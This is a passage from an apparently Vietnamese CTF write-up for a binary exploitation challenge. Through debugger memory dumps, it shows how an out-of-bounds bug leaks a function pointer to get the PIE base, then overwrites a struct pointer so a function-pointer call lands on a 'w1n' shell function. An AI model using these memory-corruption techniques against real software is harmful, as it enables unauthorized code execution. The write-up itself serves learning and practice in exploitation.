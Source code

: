 

Nếu index=2, nếu biến `sum` đang chứa địa chỉ của struct thứ 2 trong mảng `v_list` -> `&sum[2] -> v_list+64` hay là `&sum[2]->v_list[8]` và khi thực hiện `memcpy()` thì trên chunk `faves[2]` sẽ chứa địa chỉ hàm `print` trên chỉ số x và địa chỉ của `v_list[2]` trên chỉ số y của chunk `faves[2]`

Hiện thực hóa điều trên:

```
00:0000│  0x555555558040 (v_list) ◂— 0xdeadbeef
01:0008│  0x555555558048 (v_list+8) ◂— 0xdeadbeef
02:0010│  0x555555558050 (v_list+16) —▸ 0x55555555535d (printData) ◂— endbr64 
03:0018│  0x555555558058 (v_list+24) ◂— 0xdeadbeef
04:0020│  0x555555558060 (v_list+32) ◂— 0xdeadbeef
05:0028│  0x555555558068 (v_list+40) —▸ 0x55555555535d (printData) ◂— endbr64 
06:0030│  0x555555558070 (v_list+48) ◂— 0xdeadbeef
07:0038│  0x555555558078 (v_list+56) ◂— 0xdeadbeef
08:0040│  0x555555558080 (v_list+64) —▸ 0x55555555535d (printData) ◂— endbr64 
09:0048│  0x555555558088 (sum) —▸ 0x555555558070 (v_list+48) ◂— 0xdeadbeef
``` 

-> Trên *faves[2] đã chứa các địa chỉ mà ta cần
```
0:0000│  0x5555555592a0 —▸ 0x55555555535d (printData) ◂— endbr64 
01:0008│  0x5555555592a8 —▸ 0x555555558070 (v_list+48) ◂— 0x37ab6fbbc
02:0010│  0x5555555592b0 ◂— 0x0
```

-> Từ đó, khi ta dùng hàm `printFavorite()` thì thứ chúng ta có được đó là địa chỉ của mảng `v_list` và địa chỉ của hàm `print` là ta sẽ có được địa chỉ của PIE

```
Index: 2
Data: 
v = [93824992236381 93824992247920]
```
-> Thành công leak được PIE base 

Bây giờ, ta đã có PIE base, điều cần làm là làm sao điều khiển được RIP trỏ vào hàm `w1n()` 

Options 3 sẽ trả lời câu hỏi của ta:

`((struct Vector *)sum)->printFunc(sum);`

Chúng ta có thể điều khiển biến `sum` trỏ vào bất cứ đâu nhờ vào bug OOB ở trên

Vậy thì chúng ta sẽ viết hàm `w1n()` vào 1 index nào đó trên `v_list()` rồi ghi đè sum trỏ vào trước đó 16 bytes thì chúng ta đã có thể có được shell !!!!!

```c
00:0000│  0x558c60655040 (v_list) —▸ 0x558c606529d2 (w1n) ◂— endbr64 
01:0008│  0x558c60655048 (v_list+8) —▸ 0x558c606529d2 (w1n) ◂— endbr64 
02:0010│  0x558c60655050 (v_list+16) —▸ 0x558c6065235d (printData) ◂— endbr64 
```
Lúc này ghi đè sum bằng v_list[3] thành `v_list-16` sau đó trigger để gọi hàm w1n 

```
0x558c6065298c <main+173>    call   rdx                           <w1n>
        rdi: 0x558c60655030 (stdin@GLIBC_2.2.5) —▸ 0x7fdff7ff6aa0 (_IO_2_1_stdin_) ◂— 0xfbad208b
        rsi: 0x3
        rdx: 0x558c606529d2 (w1n) ◂— endbr64 
        rcx: 0x0
```

